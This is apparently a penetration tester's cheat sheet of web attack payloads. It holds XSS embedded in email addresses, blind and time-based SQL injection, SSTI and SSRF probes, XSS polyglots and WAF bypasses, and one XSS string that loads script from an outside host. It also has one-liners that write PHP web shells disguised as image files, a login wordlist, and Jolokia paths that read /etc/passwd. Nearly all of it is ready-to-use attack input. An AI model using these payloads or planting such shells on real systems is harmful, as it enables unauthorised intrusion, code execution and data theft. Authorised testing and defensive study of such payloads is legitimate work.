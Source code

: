 Login and register payloads:

- valid Email payloads:
1. test+(<script>alert(0)</script>)@example.com
2. test@example(<script>alert(0)</script>).com
3. "<script>alert(0)</script>"@example.com


Sql injection:
(select(0)from(select(sleep(25)))v) --> Blind 25 seconds
/0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z/ --> Time based 10 seconds



SSTI template injection:
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com

SSRF:
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
-------------------------
html injection(Can use match and replace in request body):
<u>123</u>


-------------
XSS:

https://netsec.expert/posts/xss-in-2021/

jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e

%3c<aa+ONLOAD+href=javasONLOADcript:promptONLOAD(1)%3e --> WAF BYPASS
<img src onerror=alt=''+document.domain> '  --> WAF Bypass

xss payload --> xss.xml:

<?xml version="1.0" encoding="UTF-8"?>
<html xmlns:html="http://w3.org/1999/xhtml">
<html:script>prompt(document.domain);</html:script>
</html>

Double quote and single quote bypass:
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>

'"onclick=(co\u006efirm)?.`0`><sVg/i="${{7*7}}"oNload=" 0>(pro\u006dpt)`1`"></svG/</sTyle/</scripT/</textArea/</iFrame/</noScript/</seLect/--><h1><iMg/srC/onerror=alert`2`>%22%3E%3CSvg/onload=confirm`3`//<Script/src=//zaggeb.xSs.ht></scripT>


<xhzeem  attr="
--- 
x="=='='onmouseover=confirm`xhzeem` style="display:block;width:1000px;height:1000px;background:red">
--- 
">

------
RCE payload to creating image:
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg

echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png

echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif

echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp


-------


ORWA Notes from IWCON:

Login wordlists and passwords:

password
passwd
pwd
pass
secret
ldap

Jolokia RCE:
/actuator/jolokia/exec/com.sun.management:type=DiagnosticCommand/compilerDirectivesAdd/!/etc!/hosts

-------

DiagnosticCommand/compilerDirectivesAdd/!/etc!/passwd

